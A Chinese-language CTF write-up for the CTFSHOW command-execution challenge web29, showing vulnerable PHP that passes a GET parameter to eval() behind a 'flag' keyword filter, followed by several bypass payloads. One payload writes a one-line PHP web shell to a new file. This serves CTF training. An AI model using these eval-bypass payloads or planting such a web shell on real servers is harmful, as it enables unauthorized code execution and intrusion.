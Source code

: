 +++
date = '2024-12-22T00:27:55+08:00'
title = 'CTFSHOW-命令执行-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++



#### web29

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:26:48
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

可以看到通过eval函数可以执行php代码或者系统命令，其中过滤了flag。

进行绕过就行，解法很多

> 1. c=system("cat fl*g.php | grep  -E 'fl.g' ");
>
> 2. c=system("tac fl*g.php");
>
> 3. c=system("cat fl*g.php");（用cat要右键查看源代码才能看到回显）
>
> 4. c=system("cp fl*g.php a.txt ");（访问a.txt查看）
>
> 5. c=system('echo -e " <?php \n error_reporting(0); \n  \$c= \$_GET[\'c\']; \n eval(\$c); " > a.php'); //直接新建一个页面并写入一句话木马
>    （/a.php?c=system("tac flag.php");）
>
> 6. ?c=echo \`tac fla*\`;
>
>    ....

